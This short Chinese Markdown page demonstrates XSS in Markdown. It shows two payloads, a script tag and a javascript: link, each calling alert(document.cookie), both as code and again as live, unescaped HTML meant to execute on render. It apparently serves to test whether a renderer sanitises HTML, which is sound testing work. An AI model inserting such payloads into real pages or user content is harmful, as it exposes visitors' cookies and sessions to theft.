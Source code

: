 # Markdown XSS Script 攻擊

> 以下皆為直接在 Markdown 文件輸入 html script

## Script XSS

***程式碼***


```html
<script>
    alert(document.cookie);
</script>
```

<script>
    alert(document.cookie);
</script>

## 連結 Script XSS

***程式碼***

```html
<a href="javascript:alert(document.cookie);">連結 Script XSS</a>
```

***DEMO***

<a href="javascript:alert(document.cookie);">連結 Script XSS</a>


